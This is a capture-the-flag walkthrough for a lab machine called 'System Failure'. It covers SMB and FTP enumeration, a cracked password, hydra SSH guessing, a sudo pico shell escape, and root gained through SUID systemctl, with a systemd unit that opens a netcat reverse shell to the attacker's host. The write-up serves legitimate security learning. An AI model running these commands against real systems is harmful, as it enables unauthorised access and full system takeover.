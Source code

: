 # System Failure (Creatigon Basic Pentest)

---

## Enumeration

- Nmap Enumeration

1. 21/ftp vsftpd 3.0.3
2. 22/ssh syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
3. 80/http syn-ack Apache httpd 2.4.38 ((Debian))
   - server-header - Apache/2.4.38 (Debian)
4. 139/samba samba
5. 445/samba samba

- Initial Testing

1. ftp -> cannot enter anonymous login
2. smb

```sh
$ smbmap -H $IP
# anonymous -> read, write
# IPC$, print$ -> no access
```

- get share file in smb anonymous share
- login creds for FTP - 89492D216D0A212F8ED54FC5AC9D340B (`qazwsxedc`)
- enum4linux - interesting results

```
S-1-22-1-1000 Unix User\valex (Local User)
S-1-22-1-1001 Unix User\admin (Local User)
S-1-22-1-1002 Unix User\jin (Local User)
S-1-22-1-1003 Unix User\superadmin (Local User)

```

3. http

- directory brute forcing ->
  - http://$IP/area4

---

## Enter user account

- Enter ftp accounts with above password, and it is admin's account
- it is also work for admin's ssh account
- no sudo
- run linpeas at /tmp folder (saved as lp_outu.ansi)
- interesting results

```
SUID -> systemctl
https://gtfobins.github.io/gtfobins/systemctl/#suid

# file: /usr/bin/systemctl
USER   root      rwx
GROUP  root      ---
group  jin       r-x
mask             r-x
other            ---

/home/admin/Syst3m/here.txt
(I l3f7 y0u 0ur s3cr3t c0d3)+(I l3f7 17 ju57 f0r y0u)+(t0 m4k3)x(7h1ng5 s4f3r.)
I left you our secret code. I left if just for you to make things safer.
```

- in /home/admin/Syst3m/F4iluR3/

  - all files has length 1696 except fle0189.txt has length 1714
  - diff -> J310MIYla1aVUaSV

- no user with no password with that word
- until now, we get users

```
admin
superadmin
valex
jin
```

- try to login with -e nsr with hydra (null password, login as pass, name reverse)

```sh
$ hydra -L users.txt $IP ssh -e nr
login: valex   password: xelav
```

- enter valex ssh

```sh
$ sudo -l
User valex may run the following commands on SystemFailure:
    (jin) NOPASSWD: /usr/bin/pico
```

- can run sudo pico as jin user

```sh
$ sudo -u jin pico
# then ctrl+R, ctrl+X
$ reset; sh 1>&0 2>&0
# become jin user
$ /bin/bash
```

- jin can run systemctl as root
- listen on your attack machine as

```
nc -nvlp 4242
```

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.25 4242 >/tmp/f"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

- get root access at attack machine

---
